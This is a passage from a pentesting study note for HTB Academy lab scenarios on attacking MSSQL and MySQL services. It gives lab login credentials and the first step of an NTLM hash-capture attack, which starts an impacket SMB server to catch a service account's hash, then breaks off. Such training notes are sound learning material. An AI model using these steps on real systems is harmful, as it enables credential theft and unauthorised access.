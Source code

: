 - **[SMB Attacks](smb-attacks.md)** - Hash capture integration
- **[Database Enumeration](../services/mysql-enumeration.md)** - Information gathering
- **[Database Enumeration](../services/mssql-enumeration.md)** - MSSQL reconnaissance
- **[Pass the Hash](../passwords-attacks/pass-the-hash.md)** - Credential reuse
- **[Active Directory Attacks](../passwords-attacks/active-directory-attacks.md)** - Domain exploitation

---

## 📚 References

- **HTB Academy** - Attacking Common Services Module
- **Microsoft SQL Server Documentation** - Security best practices
- **MySQL Security Documentation** - Hardening guidelines
- **OWASP Database Security** - Common vulnerabilities
- **CVE-2012-2122** - MySQL authentication bypass

---

## 🎯 HTB Academy Lab Scenarios

### Scenario 1: Initial Database Access
```bash
# Target: 10.129.203.12 (ACADEMY-ATTCOMSVC-WIN-02)
# Credentials: htbdbuser:MSSQLAccess01!

# Install sqlcmd (if needed)
sudo apt install sqlcmd

# Connect to target MSSQL server
sqlcmd -S 10.129.203.12 -U htbdbuser
Password: MSSQLAccess01!

# Expected output:
1>
```

### Scenario 2: MSSQL Service Hash Capture
**Task**: Find password for "mssqlsvc" user via hash stealing

#### Terminal 1 - Start SMB Server
```bash
# Start impacket SMB server with SMBv2 support
sudo impacket-smbserver share ./ -smb2support

# Expected output:
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation
[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
```
